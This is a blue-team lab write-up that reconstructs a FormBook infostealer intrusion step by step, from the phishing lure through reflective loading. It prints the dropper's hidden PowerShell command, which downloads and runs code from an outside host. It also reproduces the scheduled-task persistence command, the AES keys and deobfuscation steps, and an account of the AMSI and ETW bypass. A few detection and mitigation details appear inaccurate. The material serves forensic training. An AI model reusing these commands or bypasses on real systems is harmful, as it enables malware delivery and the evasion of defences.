

# Formbook Lab

<p align="center">
  
</p>

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Initial Access and Delivery](#initial-access-and-delivery)
- [Execution and Dropper Analysis](#execution-and-dropper-analysis)
- [Persistence](#persistence)
- [Loader Decryption and Reflective Loading](#loader-decryption-and-reflective-loading)
  * [AMSI and ETW Bypass Detection and Mitigation](#amsi-and-etw-bypass-detection-and-mitigation)
- [Defense Evasion](#defense-evasion)
- [Command and Control](#command-and-control)
- [FormBook Payload](#formbook-payload)
- [Attack Chain](#attack-chain)
  * [Text Tree](#text-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/formbook/](https://cyberdefenders.org/blueteam-ctf-challenges/formbook/)

Suggested tools: Event Log Explorer, CyberChef, DB Browser for SQLite, Notepad++, PowerShell

Tactics: Initial Access, Execution, Persistence, Privilege Escalation, Defense Evasion, Command and Control

# Scenario

On April 29, 2026, an employee at the Silver Group reported that a routine "quotation request" email prompted them to download and open an attachment, after which their workstation began behaving oddly. Shortly afterward, endpoint monitoring flagged unexpected script activity, a newly created recurring task, and repeated outbound connections to unfamiliar external hosts, raising concerns that an information stealer had taken hold despite antivirus software showing no alerts.

You have been handed an offline triage collection from the affected workstation, including file-system metadata, endpoint telemetry, recovered loader scripts, and several disguised payload files staged in a shared directory. Your task is to reconstruct the full intrusion from the initial lure through final payload execution, tracing how the attacker delivered, decrypted, and injected their malware while evading detection. Build a timeline that links each stage, recover the indicators of compromise, and identify the responsible malware family.

# Initial Access and Delivery

**Q1**- The intrusion began when the user opened a link in their New Outlook client, which forwarded the request to the default browser. Which process spawned the browser that initiated the malicious download, and at what UTC timestamp did the browser start?

Answer: `olk.exe`, `2026-04-29 14:25`

Reason: Using Event Log Explorer, on host `SG-WKS4`, user `AD\byoussef` clicked a link inside a phishing email (MITRE ATT&CK T1566.001) disguised as a quotation request. The New Outlook client (`olk.exe`, PID `5124`, running from the `WindowsApps` package path) forwarded the URL to the system default browser rather than rendering it internally, spawning `msedge.exe` (PID `560`) at `2026-04-29 14:25:58.550 UTC` to retrieve a RAR archive staged on an external host.`msedge.exe` was launched with the `--single-argument` flag, passing the full URL directly, which instructs the browser to treat the entire string as the navigation target with no additional arguments parsed. This is the standard invocation pattern when a calling process hands off a URL to the default browser handler.

The staging server at `3.121.186.89` on port `8000` served the RAR archive over plain HTTP, indicating no Transport Layer Security (TLS) was used. The filename `08042026_0806_07042026_Quotation%20Request.rar` follows a date-stamped naming convention consistent with lure documents designed to appear as legitimate business correspondence (T1036).


**Q2**- From the staging URL, isolate the two-tier infrastructure detail the lab asks for: what is the IP address and port of the staging server that delivered the first-stage RAR archive? (Format: IP:port)

Answer: `3.121.186.89:8000`

Reason: This value is pulled directly from the download URL captured in the prior `msedge.exe` command line, where the RAR archive `08042026_0806_07042026_Quotation%20Request.rar` was retrieved over plain HTTP from a non-standard high port rather than the conventional ports `80` or `443`. This pattern is consistent with a lightweight attacker-hosted staging server. Legitimate web infrastructure typically operates on standard ports and serves content over HTTP Secure (HTTPS); the use of a raw high port with no TLS strongly suggests an ephemeral server stood up solely to host the initial lure payload (T1583.001).

**Q3**- Locate the downloaded archive in the file system metadata. What is the full file name of the first-stage RAR, and what is its size in bytes? (Format: filename, bytes)

Answer: `08042026_0806_07042026_Quotation Request.rar`, `5180553`

Reason: The archive was recovered directly from disk at `C:\Users\byoussef\Downloads\`, matching both the filename referenced in the malicious URL and the file size already logged in the browser download history SQLite record retrieved earlier. The presence of the archive in the default Downloads directory also indicates no custom download path was configured and that `AD\byoussef` did not manually relocate the file after retrieval, preserving the original drop location as a reliable artifact anchor for the rest of the chain.

**Q4**- To support later malware-analysis correlation, hash the delivered archive. What is the SHA256 hash of the first-stage RAR?

Answer: `E6CB4D92D873AD02564CE38E283180446E557462A713F2885DBC99A979FA9F81`

Reason: Hashing was performed directly against the recovered artifact on the triage image using PowerShell's `Get-FileHash` cmdlet, producing a SHA-256 digest for `08042026_0806_07042026_Quotation Request.rar` that serves as the fixed identity anchor for this first-stage payload. Unlike a filename or path, a cryptographic hash is content-derived and invariant, meaning the same digest will be produced regardless of where the file is copied, renamed, or re-staged.

```powershell
Get-FileHash "C:\Users\byoussef\Downloads\08042026_0806_07042026_Quotation Request.rar" -Algorithm SHA256
```

**Q5**- How many seconds did the malicious RAR take to download? 

Answer: 16

Reason: Using the same download record pulled from the Edge history SQLite database, the elapsed download duration was derived by subtracting the Chromium `start_time` from `end_time`, both stored as microseconds since the Windows epoch of `1601-01-01`: `13421946374527814 - 13421946358952022 = 15,575,792` microseconds, equating to approximately `15.58` seconds, rounded to `16` seconds for a `5.18 MB` archive retrieved over the staging server's plain HTTP connection.

```python
start_time = 13421946358952022
end_time   = 13421946374527814

elapsed_us = end_time - start_time          # 15,575,792 microseconds
elapsed_s  = elapsed_us / 1_000_000         # ~15.58 seconds

size_bytes = 5.18 * 1024 * 1024            # 5,431,910 bytes
throughput = size_bytes / elapsed_s         # ~348,588 bytes/s (~340 KB/s)
```


# Execution and Dropper Analysis

**Q6**- The user manually opened the archive before the malware ran. Which third-party utility (with version) was used to extract the RAR?

Answer: `7-Zip 26.00`

Reason: At `2026-04-29 14:27:07.955 UTC`, `explorer.exe` (PID `11708`) spawned `7zG.exe` (PID `7732`, `C:\Program Files\7-Zip\7zG.exe`, version `26.00`), the GUI extraction component of 7-Zip, with a command line targeting the downloaded archive and an output path of `C:\Users\byoussef\Downloads\08042026_0806_07042026_Quotation Request\`. The `explorer.exe` parent confirms this was an interactive, user-driven action, consistent with `AD\byoussef` double-clicking the archive from the Downloads folder rather than any automated or scripted unpacking. The use of `7zG.exe` specifically, as opposed to the headless `7z.exe` or `7za.exe` components, reinforces the interactive nature of the extraction since `7zG.exe` is invoked when a user opens an archive through the Windows shell integration rather than from a command line (T1204.002).


**Q7**- Identify the script the archive delivered. What is the full file name of the dropper script that was extracted into the Downloads folder and then executed?

Answer: `cbmjlzan.JS`

Reason: Pivoting on the `ProcessGuid` `{c73af8d8-153b-69f2-ea16-000000005400}` carried forward from the 7-Zip extraction event, a Sysmon `FileCreate` confirms `7zG.exe` writing `cbmjlzan.JS` into `C:\Users\byoussef\Downloads\08042026_0806_07042026_Quotation Request\` at `2026-04-29 14:27:10.123 UTC`, approximately three seconds after extraction began. The randomized, eight-character lowercase filename is a hallmark of malicious JavaScript droppers generated to resist static signature matching and avoid analyst pattern recognition, since a name like `invoice.js` or `setup.js` would draw immediate scrutiny while a nonsense string blends into an unfamiliar archive's contents (T1036.008). Using the same `ProcessGuid` as the pivot here is the correct approach as it binds the `FileCreate` event unambiguously to this specific `7zG.exe` instance rather than any other extraction process that may have been running concurrently.


**Q8**- Dropper Script executed by native Windows interpreter, and what is the full command line used to launch it? 

Answer: `"C:\Windows\System32\WScript.exe" "C:\Users\byoussef\Downloads\08042026_0806_07042026_Quotation Request\cbmjlzan.JS"`

Reason: At `2026-04-29 14:27:40.072 UTC`, `AD\byoussef` double-clicked `cbmjlzan.JS`, triggering `OpenWith.exe` (PID `11844`) as the Windows file-association handler, which in turn launched `wscript.exe` (PID `11972`), the Microsoft Windows Script Host (WSH), to execute the extracted JavaScript directly. The `OpenWith.exe` intermediary is expected behavior when the operating system resolves a `.JS` file extension through its default handler chain rather than a direct shell invocation, and its presence in the process tree does not indicate any additional user interaction beyond the initial double-click. This constitutes a Living Off the Land Binary (LOLBIN) abuse pattern (T1202) in which `wscript.exe`, a legitimate signed Windows utility present on virtually every Windows installation, is used to execute attacker-controlled script content without requiring a dropped, unsigned, or anomalous binary.

`ProcessGuid` for future pivoting is: `{c73af8d8-155c-69f2-ee16-000000005400}`


**Q9**- The dropper script is enormous (over 10 MB) because it inflates its payload by encoding each byte as one printable character. Which Unicode block is abused to perform this byte-to-character encoding scheme? (Format: official Unicode block name)

Answer: CJK Unified Ideographs

Reason: The script's opening approximately `302` lines repeatedly append an identical, verbatim-duplicated block of CJK ideograph characters to `this.VFHDVXDJCFTU`, a variable that is never read or referenced anywhere else in the file, confirming this block is dead code serving no functional role in execution. Stripping those lines reduced the file from over `10 MB` to `645 KB` with zero functional change, demonstrating that the size inflation is entirely deliberate rather than a byproduct of the encoding scheme described previously.

This technique targets a well-documented gap in automated analysis pipelines: many antivirus engines and sandbox environments impose file size thresholds above which scans are truncated or skipped entirely, meaning the actual malicious logic located further down the file may never be reached or evaluated (T1027.001). The CJK padding compounds this by being visually dense and attention-absorbing, drawing an analyst's eye toward the top of the file where there is nothing meaningful, while the functional payload sits in the comparatively compact `645 KB` remainder.

```jsx
// C:\Users\Administrator\Desktop\Start Here\Artifacts\SG-WKS4\C\Users\byoussef\Downloads\08042026_0806_07042026_Quotation Request\cbmjlzan.JS, lines 1 to 302
    this.VFHDVXDJCFTU += "VFHDVXDJCFTUTW人丙七两付丟了七丌...<SNIP...亗仛仲仟京VFHDVXDJCFTUTW亇乞";

PS C:\Users\Administrator\Desktop\Start Here\Artifacts\SG-WKS4\C\Users\byoussef\Downloads\08042026_0806_07042026_Quotation Request> ls
    Directory: C:\Users\Administrator\Desktop\Start Here\Artifacts\SG-WKS4\C\Users\byoussef\Downloads\08042026_0806_07042026_Quotation Request

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/29/2026  11:57 AM       10639309 cbmjlzan.JS
-a----         7/1/2026   3:21 PM         660474 no_unicode.js
```

**Q10**- Inside the dropper, the start and end of each obfuscated data chunk are marked by a hardcoded ASCII marker that is not part of the payload. What is this magic string?

Answer: `VFHDVXDJCFTUTW`

Reason: Within the CJK-encoded padding blob, the token `VFHDVXDJCFTUTW` repeats throughout each concatenated chunk, appearing at regular intervals to bracket sub-sections of the ideograph content, for example `VFHDVXDJCFTUTW`+CJK block+`VFHDVXDJCFTUTW`+CJK block, functioning as a hardcoded ASCII delimiter visually distinct from the surrounding CJK code points. In a functional decode routine, this delimiter would serve as a split marker, allowing the consumer to segment the blob into discrete chunks before processing each independently, a pattern common in custom encoding schemes where a single concatenated string carries multiple independently decodable payloads.

The forensic significance here is that even the internal structure of the decoy block was engineered to resemble a legitimate chunked encoding scheme. An analyst encountering this file cold would see a large variable, a recognizable delimiter pattern, and structured sub-sections of encoded content, all of which superficially mirror the layout of a real multi-stage loader. That resemblance is deliberate misdirection: the entire block including its internal delimiter structure sits inside the confirmed dead-code variable `this.VFHDVXDJCFTU`, which is never consumed anywhere in the file. Recognizing `VFHDVXDJCFTUTW` as a structural artifact of the decoy rather than a meaningful decode key is therefore an important disambiguation step before committing time to any decoding effort against this blob.

```jsx
// The actual payload logic at the very end of the JS script

function runApprovedCommand() {
    var shell = new ActiveXObject("WScript.Shell");

    var psCommand = 'powershell.exe -NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -Command ' +
                    '"IEX ((New-Object Net.WebClient).DownloadString(\'http://34.236.155.32:80/a\'))"';

    try {
        WScript.Echo("...");

        var result = shell.Run(psCommand, 0, true);   

        if (result !== 0) {
            WScript.Echo("PowerShell execution failed. Exit code: " + result);
        } else {
            WScript.Echo("PowerShell command executed successfully.");
        }
    } catch (e) {
        WScript.Echo("Error during execution: " + e.message);
    }
}
```

**Q11**- The dropper writes three PNG-named payload files to a world-writable directory. List the three file names in the exact order they were created on disk. 

Answer: `Orio.png`, `Brio.png`, `Xrio.png`

Reason: Pivoting on `ProcessGuid` `{c73af8d8-155c-69f2-ee16-000000005400}` (PID `4480`, `wscript.exe`), three Sysmon `FileCreate` (Event ID `11`) events show the script writing sequential files to `C:\Users\Public\` at `14:27:56.793` (`Orio.png`), `14:27:57.459` (`Brio.png`), and `14:28:00.651` (`Xrio.png`). The approximately one-second cadence between the first two writes and the three-second gap before the third suggests sequential decode-and-write operations rather than a bulk extraction, consistent with the script processing and materializing each file individually from the CJK-encoded payload.

`C:\Users\Public\` is writable by any local user by default and requires no elevation to write to, making it a reliable cross-session staging location that attackers can target without assuming any particular privilege level on the compromised host (T1074.001). All three files carry a `.png` extension despite almost certainly containing non-image data, a straightforward extension masquerading technique designed to blend the dropped files into benign-looking file activity and bypass extension-based filtering rules that do not inspect file headers or magic bytes (T1036.008).

So far: `cbmjlzan.JS` is the dropper (bloated with padding for evasion), `/a` is the next-stage PowerShell loader, and the three `.png` files in `C:\Users\Public\` are likely encoded components of the actual final payload (or the loader itself, split across files).

```
ProcessGuid: {c73af8d8-155c-69f2-ee16-000000005400}
Process: C:\Windows\System32\WScript.exe (PID 4480)
Directory: C:\Users\Public\ (world-writable)
File 1: C:\Users\Public\Orio.png - 2026-04-29 14:27:56.793
File 2: C:\Users\Public\Brio.png - 2026-04-29 14:27:57.459
File 3: C:\Users\Public\Xrio.png - 2026-04-29 14:28:00.651
User: AD\byoussef
Host: SG-WKS4
```


# Persistence

**Q12**- Before the payloads detonated, the dropper copied itself to a second location to survive reboots. What is the full path of the copy the script created for persistence?

Answer: `C:\Users\Public\Libraries\cbmjlzan.JS`

Reason: At `14:27:40.771 UTC`, approximately 16 seconds before the first PNG payload drop and shortly after `wscript.exe` (PID `4480`, `ProcessGuid` `{c73af8d8-155c-69f2-ee16-000000005400}`) began executing, a Sysmon `FileCreate` event shows the script writing a copy of itself to `C:\Users\Public\Libraries\cbmjlzan.JS`. The self-copy precedes the payload drops, indicating this is one of the first actions the script takes on execution, prioritizing its own persistence setup before proceeding to materialize the remaining staging artifacts (T1074.001).

Relocating the script out of `C:\Users\byoussef\Downloads\` is also defensively motivated from the attacker's perspective: the Downloads folder is a natural cleanup target, and the source archive `08042026_0806_07042026_Quotation Request.rar` along with its extracted contents could be deleted by the user or an endpoint security tool without disrupting a persistence mechanism that references the `Public\Libraries\` copy independently.


**Q13**- The dropper then established persistence via a scheduled task. Reconstruct the full command line that created the task. 

Answer: `"C:\Windows\System32\cmd.exe" /c schtasks /create /sc minute /mo 15 /tn cbmjlzan.JS /tr C:\Users\Public\Libraries\cbmjlzan.JS`

Reason: At `14:27:45.597 UTC`, approximately five seconds after dropping the self-copy to `C:\Users\Public\Libraries\cbmjlzan.JS`, the productive `wscript.exe` (PID `4480`) spawned `cmd.exe` (PID `4476`), which invoked the native `schtasks.exe` utility to register a scheduled task named `cbmjlzan.JS`, configured to execute every 15 minutes (`/sc minute /mo 15`) with its trigger action (`/tr`) pointing at the persistence copy established moments earlier (T1053.005).

The full execution chain at this stage, `wscript.exe` spawning `cmd.exe` spawning `schtasks.exe`, relies entirely on legitimate, signed Windows binaries, meaning no custom or unsigned executable appears anywhere in the persistence mechanism (T1202). This is a deliberate LOLBIN chain: a defender relying purely on binary reputation or code signing validation would see nothing anomalous.

```bash
schtasks /create /tn "cbmjlzan.JS" /tr "C:\Users\Public\Libraries\cbmjlzan.JS" /sc minute /mo 15
```


**Q14**- Using the task name from the previous command, pivot into the registry to confirm persistence. What is the GUID assigned to the scheduled task under the `TaskCache\Tree` key?

Answer: `{55AED6D3-C198-4BAE-872F-BC1BD3E01655}`

Reason: Loading the `SOFTWARE` hive from `C:\Windows\System32\config\SOFTWARE` in Registry Explorer and navigating to `Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\cbmjlzan.JS` revealed an `Id` value of type `RegSz` set to `{55AED6D3-C198-4BAE-872F-BC1BD3E01655}`, confirming the scheduled task's registration in the registry cache independently of the on-disk Task Scheduler XML stored under `C:\Windows\System32\Tasks\`.

```jsx
SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\cbmjlzan.JS\Id: {55AED6D3-C198-4BAE-872F-BC1BD3E01655}
```


# Loader Decryption and Reflective Loading

**Q15**- After dropping the payloads, the dropper launched an obfuscated PowerShell stage. What junk string is repeatedly inserted into the Base64 data to be substituted before it can run, and which PID ran this PowerShell stage for the first time?

Answer: `VFHDVXDJCF`, `8972`

Reason: At `14:28:00.902 UTC`, `powershell.exe` (PID `8972`) launched with the command line `-Noexit -nop -c iex([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('...')))`, a standard decode-and-execute cradle that Base64-decodes a Unicode payload string and passes it directly to `Invoke-Expression` (`iex`) for execution without touching disk (T1059.001, T1140). The `-nop` flag disables the user's PowerShell profile to avoid interference, while `-Noexit` keeps the session alive after execution, consistent with a loader that expects to maintain a running context for subsequent activity.

The Base64 payload string has been deliberately corrupted by repeatedly inserting the junk token `VFHDVXDJCF` throughout, rendering it invalid for any decoder that processes the string as-is. This is the same root marker family observed earlier in the JavaScript dropper, where `VFHDVXDJCFTU` and `VFHDVXDJCFTUTW` appeared as padding variable names and chunk delimiters respectively.


**Q16**- The de-obfuscated PowerShell decrypts the first PNG payload. Which PNG does this stage decrypt, and what AES Key and IV (both Base64) does it use? (Format: name.png, Key, IV)

Answer: `Xrio.png`, `XctflJI8B7Qo2dA6FbwuHYAjjzjViSx3hThThXX1QUY=`, `eb8a/RvZf2ltVDo2satMKg==`

Reason: After stripping the `VFHDVXDJCF` junk token from the Base64 blob and decoding it using the same Unicode (UTF-16LE) recipe as the original `iex` cradle, the recovered `clean.ps1` reveals the PowerShell stage reading `C:\Users\PUBLIC\Xrio.png` as input, then constructing an AES decryption object in CBC mode with PKCS7 padding using a hardcoded Base64-encoded key (`XctflJI8B7Qo2dA6FbwuHYAjjzjViSx3hThThXX1QUY=`) and initialization vector (`eb8a/RvZf2ltVDo2satMKg==`). This confirms that the three world-writable `.png` files dropped earlier are not image files at all but individually AES-encrypted blobs (T1027, T1140).

```powershell
# Strip junk token and decode payload for static analysis
$corrupted = '<paste corrupted Base64 string here>'
$clean     = $corrupted -replace 'VFHDVXDJCF', ''
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($clean)) > clean.ps1
```

```powershell
# Actual script header
$inputBase64FilePath = "C:\Users\PUBLIC\Xrio.png"

# Create a new AES object
$aes_var = [System.Security.Cryptography.Aes]::Create()

# Set AES parameters
$aes_var.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes_var.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes_var.Key = [System.Convert]::FromBase64String('XctflJI8B7Qo2dA6FbwuHYAjjzjViSx3hThThXX1QUY=')
$aes_var.IV = [System.Convert]::FromBase64String('eb8a/RvZf2ltVDo2satMKg==')
...
<SNIP>
...
```

**Q17**- What AES cipher mode and padding scheme does the loader configure for decrypting the PNG payloads? (Format: MODE, PADDING)

Answer: CBC, PKCS7

Reason: Directly visible in the decoded `clean.ps1` alongside the AES key and IV setup, the script explicitly sets `$aes_var.Mode = [System.Security.Cryptography.CipherMode]::CBC` and `$aes_var.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7`, standard and unremarkable AES configuration choices. Cipher Block Chaining (CBC) is the most commonly used block cipher mode for this class of symmetric decryption, and PKCS7 is the default padding scheme within the .NET cryptography libraries. This confirms the three `.png`-disguised files are decrypted using conventional, off-the-shelf cryptographic primitives rather than a bespoke or deliberately weakened cipher implementation (T1027). This is a meaningful observation from a tooling standpoint: the attacker's builder toolkit relies entirely on native .NET cryptographic classes (`System.Security.Cryptography.AesManaged`) rather than a custom or obfuscated crypto routine.

**Q18**- The payload detonated as an in-memory patcher whose sole purpose was to blind the .NET security telemetry pipeline before the loader ran. Which two functions are patched in memory?

Answer: `AmsiScanBuffer`, `EtwEventWrite`

Reason: The final-stage PowerShell loader on `SG-WKS4` implemented a coordinated pair of evasion techniques to blind both antimalware and endpoint detection and response (EDR) instrumentation. The first bypass targeted Event Tracing for Windows (ETW) by resolving `EtwEventWrite` from `ntdll.dll` via `GetModuleHandle` and `GetProcAddress`, then overwriting the function's initial bytes in memory to prevent the ntdll entry point from firing any telemetry callbacks. Simultaneously, the second bypass neutralized the Antimalware Scan Interface (AMSI) through .NET reflection, directly accessing PowerShell's internal `System.Management.Automation.AmsiUtils` class and setting its private static fields `amsiSession` and `amsiContext` to null values, which caused any subsequent AMSI scan attempt to treat the interface as unavailable and proceed unblocked. The script never wrote the string "`AmsiScanBuffer`" as a contiguous literal, instead constructing it at runtime from concatenated fragments ("Ams"+"iSc"+"anBuf"+"fer") to evade static string scanning and YARA signature detection targeting that exact function name.

Together these two patches rendered the PowerShell process invisible to both the security product's file-scanning path (AMSI) and the EDR's behavioral-telemetry collection path (ETW). All subsequent loader activity—plugin download, execution, and fileless payload invocation—executed without triggering antimalware scans or generating audit events. This dual-layer approach is common in post-compromise stages where the attacker has already gained execution and moves to suppress defensive visibility before deploying the true attack payload. MITRE ATT&CK: T1562.001 (Impair Defenses: Disable or Modify Tools), T1562.008 (Impair Defenses: Disable or Modify Logging).

The original final-stage loader was found in: `C:\Users\Administrator\Desktop\Start Here\Artifacts\SG-WKS4\C\PSTranscription\20260429\PowerShell_transcript.SG-WKS4.Qpr3N99R.20260429142805.txt`. Reversing the encryption pattern led to multiple layers of encoded commands, with the final one being the actual corrupting payload.


## AMSI and ETW Bypass Detection and Mitigation

Modern Windows systems have two main "security guards" that watch what code does before and as it executes. AMSI (Antimalware Scan Interface) is the guard that checks scripts and dynamically generated code before they run—think of it as a bouncer at the door checking IDs before letting anyone in. ETW (Event Tracing for Windows) is the security camera system that records what code is actually doing while it runs, so security tools can watch for suspicious behavior. Sophisticated attackers know about both guards, so they disable them temporarily to hide what they're about to do. This pattern describes how to spot when an attacker disables these guards, and how to prevent them from doing it in the first place.

**Detection Signals:**

The evasion is detectable through behavioral observation even after the bypass succeeds, because the attacker must set up the blind spot before using it. Look for:

1. **VirtualProtect on security module pages** — Sysmon Event ID 1 (ProcessAccess) showing a process calling `VirtualProtect` against memory regions owned by `amsi.dll`, `ntdll.dll`, or `kernel32.dll` with protection flag changes from executable-only to writable. This is the "flip the page permission" step and rarely occurs in legitimate application behavior.
2. **Reflection.Emit artifacts** — PowerShell logs or .NET runtime telemetry showing `System.Reflection.Emit` (AssemblyBuilder, ModuleBuilder, TypeBuilder) being used to dynamically construct types and methods at runtime. While legitimate code uses this, *combined* with the VirtualProtect signal in the same process, it becomes high-confidence.
3. **GetModuleHandle/GetProcAddress chains** — P/Invoke calls or dynamic pinvoke declarations enumerating kernel functions in sequence (`GetModuleHandle` → `GetProcAddress` → indirect call), particularly when the target function names are assembled from fragments rather than appearing as static strings in the module metadata.
4. **ETW event stream gaps** — Compare expected telemetry (script block logs, process creation, API call tracing) against actual logged events. A process running PowerShell code that should generate ETW events but doesn't, coinciding with a prior `VirtualProtect` call on ntdll or amsi, indicates the ETW emission pathway was silenced.
5. **Defender scan exemptions** — Behavioral telemetry showing PowerShell execution or script loading that bypassed AMSI scanning (Defender logs will show "bypass" or skipped scan verdicts) without triggering quarantine, especially if the same process later executes known-malicious code or makes suspicious API calls.

**Mitigation Strategies:**

1. **Constrained Language Mode (CLM)** — Enforcing CLM via Group Policy (`powershell.exe -NoProfile -ExecutionPolicy Restricted -Command "..."`) disables dynamic code generation (Reflection.Emit), preventing the attacker from constructing hidden P/Invoke declarations. The `VirtualProtect` call becomes far harder without the ability to dynamically wire up the kernel32 imports.
2. **Application Control / Code Integrity Policies** — Windows Defender Application Control (WDAC) or AppLocker can block execution of unsigned or non-whitelisted binaries and script host invocations, preventing the powershell.exe → malicious payload handoff. This is OS-level enforcement, not patch-able by user-mode code.
3. **Hook security functions at the OS level** — Instead of relying on AMSI as a per-process registration (which user-mode code can disable), implement OS-level kernel hooks on `EtwEventWrite` or intercept `VirtualProtect` calls that target security DLL memory, logging and blocking them. This moves the control boundary out of the attacker's reach.
4. **Monitor for the assembly fragments** — If the attacker builds function names from substrings (e.g., "Amsi" + "Scan" + "Buffer"), hunt for those fragments appearing in string constants within compiled .NET assemblies or PowerShell AST (Abstract Syntax Tree) logs. A four-part concatenation of a function name is rare in legitimate code.
5. **Behavioral blocking on first-run** — EDR products can block process creation of `powershell.exe` spawned from suspicious parents (Office macros, script interpreters, browser contexts) or with suspicious arguments before the `VirtualProtect` evasion even completes.
6. **Audit `VirtualProtect` calls** — Enable low-level API tracing (via ETW providers or kernel debugger) that logs all `VirtualProtect` calls and their target pages. An attacker can't hide this from kernel-level observation.

**MITRE ATT&CK Mapping:**

- T1562.001 — Impair Defenses: Disable or Modify Tools (the core evasion)
- T1140 — Deobfuscation/Decode Files or Information (string fragment assembly, dynamic P/Invoke construction)
- T1218 — System Binary Proxy Execution (using legitimate powershell.exe and system utilities to achieve code execution after the blind spot is created)

**Why this pattern matters in DFIR:** When you encounter a process with anomalous API call or behavior telemetry that doesn't align with what was logged, the evasion setup is your investigative anchor. The `VirtualProtect` + `GetModuleHandle` chain *precedes* the malicious activity you're trying to trace, so spotting that chain in the timeline gives you both a detection hook and a forensic waypoint to reconstruct what happened next.

**Q19**- A second decryption routine targets the reflective-loader payload. Which PNG does it decrypt, and what AES Key and IV (both Base64) does it use? (Format: name.png, Key, IV)

Answer: `Orio.png`, `KH4LLSO4gsNStF/NR15Oxu6oiybDl9SDt5Sa4uoeQIQ=`, `SW4pGkqRJsjbGuetmmqTjA==`

Reason: The second file, `Orio.png` (first written to disk per Sysmon `FileCreate` order in question 11), was decrypted by a separate AES-CBC/PKCS7 routine and contained the actual reflective-loader payload. This staged architecture enforces an intentional evasion-before-execution sequence: the first decryption routine patches both antimalware scanning and EDR telemetry collection within the PowerShell process, and only after those defenses are suppressed does the second decryption occur, revealing and executing the true loader payload.

```powershell
# Input Base64 encrypted file path
$inputBase64FilePath = "C:\Users\PUBLIC\Orio.png"
$aes_var = [System.Security.Cryptography.Aes]::Create()

# Set AES parameters
$aes_var.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes_var.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes_var.Key = [System.Convert]::FromBase64String('KH4LLSO4gsNStF/NR15Oxu6oiybDl9SDt5Sa4uoeQIQ=')
$aes_var.IV = [System.Convert]::FromBase64String('SW4pGkqRJsjbGuetmmqTjA==')

# Read the Base64-encoded encrypted data
$base64String = [System.IO.File]::ReadAllText($inputBase64FilePath)

# Convert Base64 string to byte array
$encryptedBytes = [System.Convert]::FromBase64String($base64String)
...
<SNIP>
...
```

**Q20**- We need to understand the decryption logic of the reflective-loader payload. The Base64 substring is extracted between two delimiters, a single character is replaced, and the array is reversed. What are the start delimiter, the end delimiter, and the character substitution performed? (Format: START, END, X->Y)

Answer: `IN-`, `-in1`, `#->A`

Reason: The reflective-loader payload embedded within the decrypted `Orio.png` blob was protected by a combination of sentinel markers and sequential character substitutions. The PowerShell code defined two obfuscated marker variables, `$Allohaarnppp1111` set to `'IN-'` and `$decryptedcode11` set to `'-in1'`, which served as start and end delimiters to isolate the malicious Base64 substring from surrounding filler bytes that resembled legitimate PNG metadata. Once the substring was extracted using string slicing between these markers, the code applied a `.Replace('#','A')` operation to restore every placeholder hash character to its corresponding A value, reversing a character-substitution obfuscation layer. The resulting string was then converted to a character array and reversed, undoing string-reversal obfuscation that had been applied earlier in the encoding chain.

```powershell
...<SNIP>...
$Allohaarnppp1111='IN-';
$decryptedcode11='-in1';
$Allohaarnppp1111111111111=$decryptedcode.Replace('#','A').ToCharArray();
...<SNIP>...
```

**Q21**- Once the assembly is loaded with `[AppDomain]::CurrentDomain.Load()`, the loader invokes a specific class and method, passing the path to the next payload and the target it will host. What is the fully-qualified class and method invoked, and what is the `file://` path passed as the first argument? (Format: `Namespace.Class.Method`, `file:///path`)

Answer: `Fiber.Program.Main`, `file:///C:/Users/Public/Brio.png`

Reason: Complete reversal of the `Orio.png` decryption chain confirmed the attacker's multi-stage payload structure. The second PNG file was decrypted using its own AES-CBC/PKCS7 key and initialization vector (per lab question 19), yielding a blob disguised as a legitimate PNG file, verified by the presence of its `ICC_PROFILE` chunk header. The real payload was isolated from this camouflaged blob using `.Substring(86, 1548288)` with boundaries marked by the delimiters `IN-` and `-in1` (recovered in question 20). The isolated substring underwent three sequential deobfuscation transformations: every `#` character was replaced with `A` via `.Replace('#','A')`, the result was converted to a character array and reversed using `[Array]::Reverse()`, then rejoined into a single string with `-join ''`, and finally Base64-decoded into a raw byte array. The byte array was exported to disk using `[IO.File]::WriteAllBytes()` rather than naive text-redirection methods, which would have corrupted the binary into UTF-16 decimal text. The resulting file confirmed as a genuine Portable Executable (PE) executable by its magic bytes `4D 5A` (MZ header). 

Next, the loaded assembly was placed directly into the current application domain using `[AppDomain]::CurrentDomain.Load()`, bypassing disk writes and `LoadLibrary` calls entirely, implementing classic reflective loading. The script then used .NET reflection to locate and invoke the entry point: `GetType('Fiber.Program')` retrieved the `Program` class from the `Fiber` namespace, `.GetMethod('Main')` retrieved its static `Main` method, and `.Invoke($null, $args)` called it directly, passing an argument array whose first element was `file:///C:/Users/Public/Brio.png`, the third and final PNG file. Repeated references to `MSBuild.exe` throughout the loader code strongly indicate that the ultimate injection target is this legitimate, signed Microsoft build utility, a well-known living-off-the-land binary chosen specifically to blend malicious execution inside a trusted system process and evade behavioral detection based on suspicious process creation.

```powershell
$decryptedcode1=$Allohaarnppp111.IndexOf($Allohaarnppp1111);
= 83

$Allohaarnppp11111=$Allohaarnppp111.LastIndexOf($decryptedcode11);
= 1548374

$Allohaarnppp111111=$decryptedcode1+$Allohaarnppp1111.Length;
= 86

$decryptedcode=$Allohaarnppp111.Substring($Allohaarnppp111111,$Allohaarnppp11111-$Allohaarnppp111111);
